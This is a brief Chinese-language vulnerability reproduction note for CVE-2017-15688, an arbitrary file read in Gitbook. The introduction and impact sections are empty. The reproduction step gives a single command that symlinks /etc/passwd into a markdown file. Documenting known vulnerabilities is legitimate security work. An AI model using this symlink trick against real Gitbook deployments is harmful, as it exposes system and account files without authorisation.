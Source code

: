 ```yaml
---
title: （CVE-2017-15688）Gitbook 任意文件读取
id: zhfly2955
---
```


# （CVE-2017-15688）Gitbook 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

创建一个md文件，代码用以下

```
ln -s /etc/passwd ./passwd.md 
```

![image](../img/7530e25c475fb879a710f837cf9a7945.png)